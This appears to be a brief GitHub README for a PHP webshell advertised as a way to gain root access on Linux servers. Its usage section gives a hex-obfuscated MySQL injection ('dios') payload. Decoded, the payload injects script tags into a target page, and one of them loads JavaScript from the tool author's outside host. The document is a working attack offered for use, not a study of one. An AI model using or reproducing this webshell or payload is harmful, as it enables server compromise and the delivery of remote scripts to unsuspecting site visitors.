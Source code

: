 # rootkitninja_webshell
Simple PHP webshell for linux machine to gained root access with several tricks.

How to use dios:
`/*!00000CoNcAt*/(0x3c73637269707420747970653d22746578742f6a61766173637269707422207372633d2268747470733a2f2f616a61782e676f6f676c65617069732e636f6d2f616a61782f6c6962732f6a71756572792f332e342e312f6a71756572792e6d696e2e6a73223e3c2f7363726970743e,0x3c73637269707420747970653d22746578742f6a61766173637269707422207372633d2268747470733a2f2f63646e2e6a7364656c6976722e6e65742f6e706d2f7377656574616c65727432403130223e3c2f7363726970743e,0x3c73637269707420747970653d22746578742f6a61766173637269707422207372633d2268747470733a2f2f7777772e726f6f746b69742d6e696e6a612e636f6d2f676174657761792f64696f735f6d7973716c2e6a73223e3c2f7363726970743e)`

